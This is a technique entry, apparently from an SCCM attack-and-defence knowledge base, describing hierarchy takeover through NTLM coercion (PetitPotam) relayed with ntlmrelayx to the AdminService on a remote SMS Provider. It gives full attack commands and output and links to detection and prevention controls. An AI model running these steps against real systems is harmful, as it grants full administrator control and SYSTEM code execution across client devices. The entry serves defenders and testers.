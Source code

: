 # TAKEOVER-5

## Description
Hierarchy Takeover via NTLM coercion and relay to AdminService on remote SMS Provider

## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-5.1: Coerce primary site server 
    - TAKEOVER-5.2: Coerce passive site server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Connectivity from the relay server to HTTPS (TCP/443) on the relay target hosting the SMS Provider role

## Summary
The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations. The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. Access to the SMS Provider is controlled via membership of the the `SMS Admins` local security group on each site server. The site server computer account is a member of the `SMS Admins` security group on each SMS Provider in a site by default.

The SMS Provider also provides access to the site database via the administration service (AdminService) REST API and uses Microsoft Negotiate for authentication. In default configurations, the AdminService is vulnerable to NTLM relay attacks.

## Impact
This technique may allow an attacker to relay a site server's domain computer account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-5: Monitor group membership changes for SMS Admins](../../../defense-techniques/DETECT/DETECT-5/detect-5_description.md)
- [PREVENT-9: Enforce MFA for SMS Provider calls](../../../defense-techniques/PREVENT/PREVENT-9/prevent-9_description.md)
- [PREVENT-14: Require EPA on AD CS and site databases](../../../defense-techniques/PREVENT/PREVENT-14/prevent-14_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Subtechniques
- TAKEOVER-5.1: Coerce primary site server
- TAKEOVER-5.2: Coerce passive site server

## Examples

1. Use `SCCMHunter` to profile SCCM infrastructure:
    ```
    [02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
    [02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```

2. On the attacker relay server, start `ntlmrelayx`, targeting the URL of the AdminService API on the remote SMS Provider identified in the previous step, and provide a target account to add as a Full Administrator:
    ```
    └─# python3 ntlmrelayx.py --adminservice --logonname "lab\specter" --displayname "lab\specter" --objectsid <USER SID> -smb2support -t https://SMS_PROVIDER_URL_OR_IP/AdminService/wmi/SMS_Admin
    Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666
    ```

3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the AdminService on the SMS Provider to add a Full Administrator:
    ```
    ┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]


    [*] Servers started, waiting for connections
    [*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.121, attacking target https://provider.internal.lab
    [*] Exiting standard auth flow to add SCCM admin...
    [*] Authenticating against https://provider.internal.lab as LAB/SCCM$
    [*] Skipping user SCCM$ since attack was already performed
    [*] Server returned code 201, attack successful
    ```

4. Confirm that the account now has the `Full Administrator` role by querying WMI on an SMS Provider:
    ```
    $ python3 sccmhunter.py  admin -u specter -p <PASSWORD> -ip SITE-SMS          

    [14:16:54] INFO     [!] Enter help for extra shell commands                                                                                                                                              
    () (C:\) >> show_admins
    [14:17:11] INFO     Tasked SCCM to list current SMS Admins.                                                                                                                                              
    [14:17:12] INFO     Current Full Admin Users:
    [14:17:13] INFO     lab\Administrator 
    [14:17:13] INFO     lab\specter 
    ```

## References
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
- Garrett Foster, [Site Takeover via SCCM's AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)
- Microsoft, [Plan for the SMS Provider](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider)
- Microsoft, [What is the administration service in Configuration Manager?](https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview)